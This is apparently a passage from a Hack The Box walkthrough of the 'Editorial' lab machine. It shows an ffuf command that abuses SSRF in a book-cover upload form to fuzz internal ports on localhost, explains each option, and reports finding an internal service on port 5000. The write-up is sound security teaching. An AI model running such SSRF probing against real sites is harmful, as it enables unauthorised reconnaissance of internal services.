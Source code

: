 ```
ffuf -u 'http://editorial.htb/upload-cover' \
-d $'-----------------------------29074654981783001802154691355\r\nContent-Disposition: form-data; name="bookurl"\r\n\r\nhttp://127.0.0.1:FUZZ/\r\n-----------------------------29074654981783001802154691355\r\nContent-Disposition: form-data; name="bookfile"; filename=""\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------29074654981783001802154691355--' \
-w <(seq 1 65535) \
-H 'Content-Type: multipart/form-data; boundary=---------------------------29074654981783001802154691355' \
-H 'Host: editorial.htb' \
-t 100 \
-mc all \
-fs 61
```

![SSRF ffuf internal port fuzzing](/images/HTB-Editorial/SSRF_ffuf_Fuzzing.png)


| Option | Description                                                                                 |
| ------ | ------------------------------------------------------------------------------------------- |
| -u     | Specifies the target URL                                                                    |
| -d $   | Specifies the HTTP request body                                                             |
| -w     | Wordlist (we are using a dynamically generated list for all the port numbers)               |
| FUZZ   | This string will be replaced with each number during the fuzzing process                    |
| -H     | Specifies the HTTP header                                                                   |
| -t 100 | Sets the number of concurrent threads                                                       |
| -mc    | Specifies which HTTP response status code to filter                                         |
| all    | When used, ffuf will not filter responses based on status codes and will show all responses |
| -fs 61 | Filters by response size. Here, responses with a body size of 61 bytes will be filtered out |

![SSRF Internal port 5000 found](/images/HTB-Editorial/internal_port_5000_found.png)

## Initial Foothold

Now we re-send the request with `http://127.0.0.1:5000` and get a different directory (`uploads`).

![SSRF Internal port number request](/images/HTB-Editorial/SSRF_internal_port_number.png)

When we go to `http://editorial.htb/static/uploads/e9ed8f81-925d-40e0-945e-7fcb30899573` a file gets automatically downloaded on our machine.

![SSRF File Downloaded](/images/HTB-Editorial/File_Downloaded.png)

It contains some JSON data.

![JSON Data ugly](/images/HTB-Editorial/JSON_data_ugly.png)
